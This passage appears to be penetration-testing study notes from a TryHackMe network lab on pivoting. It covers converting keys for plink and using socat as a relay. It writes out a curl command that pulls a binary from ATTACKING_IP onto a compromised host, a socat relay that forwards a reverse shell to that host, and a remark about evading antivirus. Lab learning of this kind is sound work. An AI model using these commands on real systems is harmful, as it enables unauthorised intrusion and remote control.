 * Note that any keys generated by ssh-keygen will not work properly here.
* You will need to convert them using the `puttygen` tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with:

```
puttygen KEYFILE -o OUTPUT_KEY.ppk
```

#### Note plink.exe

* Plink is notorious for going out of date quickly, which often results in failing to connect back. Always make sure you have an up to date version of the .exe. Whilst there is a copy pre-installed on Kali at `/usr/share/windows-resources/binaries/plink.exe`
* Download the latest
* https://www.chiark.greenend.org.uk/\~sgtatham/putty/latest.html

## Socat

* Socat is not just great for fully stable Linux shells, it's also superb for port forwarding.
* That said, static binaries are easy to find for both Linux and Windows.
* The Windows version is unlikely to bypass Antivirus software by default, so custom compilation may be required.
* `socat` makes a very good relay: for example, if you are attempting to get a shell on a target that does not have a direct connection back to your attacking computer, you could use socat to set up a relay on the currently compromised machine.
* This listens for the reverse shell from the target and then forwards it immediately back to the attacking box:
* ![alt text](https://assets.tryhackme.com/additional/wreath-network/502e2fa5765e.png)
* Before using socat, it will usually be necessary to download a binary for it, then upload it to the box.
* For example, with a Python webserver:-
* On Kali (inside the directory containing your Socat binary):

```
sudo python3 -m http.server 80
```

* Then, on the target:

```
curl ATTACKING_IP/socat -o /tmp/socat && chmod +x /tmp/socat
```

### Reverse Shell Relay

* Let's start a standard netcat listener on our attacking box (`sudo nc -lvnp 443`). Next, on the compromised server, use the following command to start the relay:

```
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
```

* From here we can then create a reverse shell to the newly opened port 8000 on the compromised server.
* ![alt text](https://assets.tryhackme.com/additional/wreath-network/e8740afb79ab.png)
* A brief explanation of the above command:
* `tcp-l:8000` is used to create the first half of the connection -- an IPv4 listener on tcp port `8000` of the target machine.
* `tcp:ATTACKING_IP:443` connects back to our local IP on port 443.
* `&` backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.
* The relay connects back to a listener started using an alias to a standard netcat listener: `sudo nc -lvnp 443`.
